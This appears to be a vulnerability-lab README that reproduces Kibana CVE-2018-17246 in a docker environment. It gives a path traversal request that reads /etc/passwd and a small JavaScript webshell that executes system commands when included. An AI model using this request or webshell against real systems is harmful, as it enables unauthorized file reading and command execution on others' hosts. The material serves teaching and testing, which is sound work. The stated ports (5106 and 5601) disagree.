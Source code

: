 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker-compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker-compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

![](2.png)

